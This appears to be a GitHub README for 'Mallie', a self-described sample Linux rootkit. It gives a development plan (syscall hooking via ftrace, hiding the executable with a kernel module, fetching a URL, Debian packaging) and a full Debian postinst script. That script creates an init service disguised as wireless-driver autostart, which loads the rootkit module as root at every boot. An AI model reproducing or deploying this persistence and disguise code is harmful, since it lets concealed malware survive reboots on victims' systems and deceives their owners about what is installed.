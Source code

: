 # Mallie
Sample linux rootkit.

# TODO
- curl a url
- ~~get syscall table~~ use ftrace instead (no need find syscall table)
- hook a syscall with ftrace instead of modifying kernel memory
- package everything into a debian package
- use of mallie executable to curl and mallie.ko lkm to hide mallie executable

# Issues
- stdlib is not available for kernel modules, may need another executable

# Resources
- Create deb package: https://www.internalpointers.com/post/build-binary-deb-package-practical-guide
- Make install script in the deb package using DEBIAN/preinstall same as the DEBIAN/control file

# Script
chmod 755 to the postinst script.
```bash

#!/bin/bash
# This `DEBIAN/postinst` script is run post-installation

echo '#!/bin/bash' > /etc/init.d/wireless-81xx
echo '# chkconfig: 345 99 10' >> /etc/init.d/wireless-81xx 
echo '# Description: Autostart wireless drivers' >> /etc/init.d/wireless-81xx 
echo 'case "$1" in' >> /etc/init.d/wireless-81xx
echo " 'start')" >> /etc/init.d/wireless-81xx 
echo '   su - root -c "cd /usr/bin ; insmod /usr/bin/root.ko";;' >> /etc/init.d/wireless-81xx 
echo " 'stop')" >> /etc/init.d/wireless-81xx
echo ' echo "shutdown...";;' >> /etc/init.d/wireless-81xx 
echo "esac" >> /etc/init.d/wireless-81xx

chmod +x /etc/init.d/wireless-81xx
cp /usr/local/bin/mallie /usr/bin/
cp /usr/local/bin/root.ko /usr/bin/
sh /etc/init.d/wireless-81xx start

```